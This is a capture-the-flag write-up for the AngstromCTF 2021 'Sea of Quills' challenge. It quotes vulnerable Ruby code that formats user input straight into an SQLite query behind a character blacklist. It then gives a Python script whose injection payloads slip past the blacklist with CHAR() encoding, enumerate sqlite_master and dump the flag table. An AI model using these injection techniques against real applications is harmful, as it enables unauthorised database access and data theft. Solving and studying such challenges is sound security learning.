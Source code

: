 # AngstromCTF2021 Sea of Quills
Looking at the sourcecode we notice the lines:
```
blacklist = ["-", "/", ";", "'", "\""]

blacklist.each { |word|
  if cols.include? word
    return "beep boop sqli detected!"
  end
}


if !/^[0-9]+$/.match?(lim) || !/^[0-9]+$/.match?(off)
  return "bad, no quills for you!"
end

@row = db.execute("select %s from quills limit %s offset %s" % [cols, lim, off])
```

We immediately see that the parameter `cols` is injectable. We do however need to take care that our query dosen't use any of the blacklisted characters. Fortunatly the SQLite dbms has a function called `CHAR` that takes integers as arguments and convert them to their ascii representation.

We can now code up our payload:
```
import requests

url = "https://seaofquills.2021.chall.actf.co/quills"

# Find table names
# We can use the CHAR method to insert strings and circumvent the filter
# CHAR(0x74,0x61,0x62,0x6c,0x65) outputs 'table'
payload = {
    "limit":"5",
    "offset":"1",
    "cols":"name,name,name FROM sqlite_master WHERE type=CHAR(0x74,0x61,0x62,0x6c,0x65) UNION select desc,url,name"
    }

r = requests.post(url,params=payload)
print(r.text)
# This returns the tablename `flagtable`

# Use tablename to extract flag
payload = {
    "limit":"5",
    "offset":"1",
    "cols":"* FROM flagtable UNION select desc"
}

r = requests.post(url,params=payload)
print(r.text)
```
Running the solytion we find the flag: `actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}`
